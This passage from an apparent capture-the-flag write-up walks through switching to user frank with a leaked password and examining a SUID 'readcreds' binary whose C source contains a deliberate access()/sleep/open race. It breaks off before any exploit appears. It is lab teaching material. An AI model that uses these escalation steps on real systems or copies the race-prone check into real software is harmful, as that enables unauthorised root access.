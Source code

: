 `The inventory team sent me a new Thinkpad, the password is "password".`

**So user `frank` password is `password`??**

**Let's Switch User to `frank`:**
```
www-data@toc:/var/www/html/cmsms$ su frank
Password: 
frank@toc:/var/www/html/cmsms$ whoami;id
frank
uid=1000(frank) gid=1000(frank) groups=1000(frank),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd)
```

I'm user `frank`!

### frank to root

**Hmm... How about the `/root_access` directory?**
```
frank@toc:/var/www/html/cmsms$ cd ~/root_access/
frank@toc:~/root_access$ ls -lah
total 28K
drwxr-xr-x 2 frank frank 4.0K Jan 31  2021 .
drwxr-xr-x 5 frank frank 4.0K Aug 18  2020 ..
-rwsr-xr-x 1 root  root  8.5K Jan 31  2021 readcreds
-rw-r--r-- 1 root  root   656 Jan 31  2021 readcreds.c
-rw------- 1 root  root    34 Aug 23  2020 root_password_backup
```

In here, we can't read the `root_password_backup` file, as **it's only readable and writable by `root`**.

**But, the `readcreds` looks like is an exeutable written in C, and it has a SUID sticky bit, which allows us to execute it as the owner of the file (`root`)!**
```
frank@toc:~/root_access$ file readcreds
readcreds: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0379954311c3c40ed2710754cfd967d8fc6a27ab, not stripped
```

**Let's read the source code of that executable!**
```c
#include <string.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>

int main(int argc, char* argv[]) {
    int file_data; char buffer[256]; int size = 0;

    if(argc != 2) {
        printf("Binary to output the contents of credentials file \n ./readcreds [file] \n"); 
	exit(1);
    }

    if (!access(argv[1],R_OK)) {
	    sleep(1);
	    file_data = open(argv[1], O_RDONLY);
    } else {
	    fprintf(stderr, "Cannot open %s \n", argv[1]);
	    exit(1);
    }

    do {
```